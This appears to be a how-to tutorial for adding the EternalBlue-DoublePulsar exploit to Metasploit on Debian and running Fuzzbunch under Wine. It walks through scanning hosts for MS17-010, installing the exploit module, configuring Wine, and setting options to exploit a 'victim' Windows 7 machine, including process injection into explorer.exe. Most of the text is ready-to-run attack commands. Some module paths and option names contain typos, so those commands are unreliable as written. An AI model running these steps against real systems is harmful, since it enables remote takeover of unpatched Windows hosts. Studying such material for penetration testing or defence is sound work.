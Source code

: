 ```yaml
---
author:
- David Johnson
index: 'Windows!Clients!EternalBlue DoublePulsar'
setupfile: '\"../org-html-themes/org/theme-readtheorg-local-1.setup\"'
title: Eternalblue Doublepulsar
---
```


This tutorial will cover how to add Eternalblue-Doublepulsar to
Metasploit framework on any Debian based distro. As well as run the
Fuzzbunch framework through wine.

Prerequisites
=============

-   Debian based distro

-   Metasploit

-   Wine

-   Eternalbule-doublepulsar

Step 1:
=======

Will the target fall victim?
----------------------------

We will want to check to see if the target victim is vulnerable. To do
this we will need to add a module to Metasploit. Specifically we want
ms~17010~ which we can find on exploit db. Download the file and move it
into Metasploits scanner module.

``` {.example}
cp *.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/smb/smb_ms_17_010.rb
```

Now start up Metasploit and lets test everything out.

``` {.example}
msfconsole
```

Let\'s make sure our new module loaded.

``` {.example}
reload_all
```

Now use the module by entering the following.

``` {.example}
use auxiliary/scanner/smb/smb_ms_17_010
```

There will be a few requirements for this to work. To list them all
enter the following.

``` {.example}
show options
```

or

``` {.example}
options
```

Here we really just need to set the value of RHOSTS.

``` {.example}
set RHOSTS <IP address or addresses>
```

If the machine is likely vulnerable you will see something like this.

``` {.example}
[!] 192.168.0.100:445         -Host is likely VULNERABLE to MS17-010!
```

Step 2:
=======

Clone Eternalblue-Doublepulsar-Metasploit
-----------------------------------------

The next step it to clone Eternalblue-Doublepulsar-Metasploit from
github. We can add it to Metasploits path like we did before by adding
directly to Metasploit. However here we will add it the prefered way.

Metasploit prefers external modules to be placed in .msf4/modules found
in your root directory. We will need to make a few directories for our
purpose such as exploits/windows.

Clone Enternalblue-Doublepulsar-Metasploit into this directory.

``` {.example}
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
```

Change into Eternalblue-Doublepulsar-Metasploit.

``` {.example}
cd Eternalblue-Doublepulsar-Metasploit
```

Now copy eternalblue~doublepulsar~.rb to the appropriate directory.

``` {.example}
cp eternalblue_doublepulsar.rb /root/.msf4/modules/exploits/windows/smb/
```

Step 3:
=======

We need to install wine because Fuzzbunch was written for Windows.

As always we begin with update

``` {.example}
apt update
```

Install Wine and other Wine tools

``` {.example}
apt install wine winbind winetricks
```

We need to add x32 because fuzzbunch was written for Windows Xp.

``` {.example}
dpkg --add-architecture i386
```

Update and install Wine32

``` {.example}
apt-get update && apt-get install wine32
```

Set Path variable.

``` {.example}
WINEPREFIX="$HOME/.wine"
```

Set Wine Architecture

``` {.example}
WINEARCH=win32 wine wineboot
```

Add to bashrc

``` {.example}
echo "export WINEPREFIX=$HOME/.wine" >> ~/.bashrc
```

Step 4:
=======

Exploit
-------

With everything setup its time to exploit our victim. Begin by starting
Metasploit.

``` {.example}
msfconsole
```

Use our new module. Pro tip Tab is your friend.

``` {.example}
use exploit/windows/Enternalblur-Doublepulsar-Metasploit/Enternalblur-Doublepulsar/
```

We will need to set the path to Doublepulsar and Eternalblue.

``` {.example}
set DOUBLEPULSAR ~/.msf4/modules/exploits/windows/Enternalblur-Doublepulsar-Metasploit/deps
```

``` {.example}
set ETERNALBLUE ~/.msf4/modules/exploits/windows/Enternalblur-Doublepulsar-Metasploit/deps
```

I recommend setting the process injection to explorer.exe

``` {.example}
set PORCESSINJECT explorer.exe
```

Set RHOST to the victim\'s IPaddress.

``` {.example}
set RHOST <>
```

We want to make sure we are targeting the right version of Windows.

``` {.example}
show target
```

We are attacking Windows 7 so enter the appropriate corresponding number

``` {.example}
set target <>
```

references
==========

<https://www.youtube.com/watch?v=fWwXjXexlT8>

<https://github.com/mdiazcl/fuzzbunch-debian>

<https://www.exploit-db.com/exploits/41891/>

<https://www.youtube.com/watch?v=wDAkiXxm1gE>

<https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit>

<https://www.youtube.com/watch?v=mJWMqLF00fM>
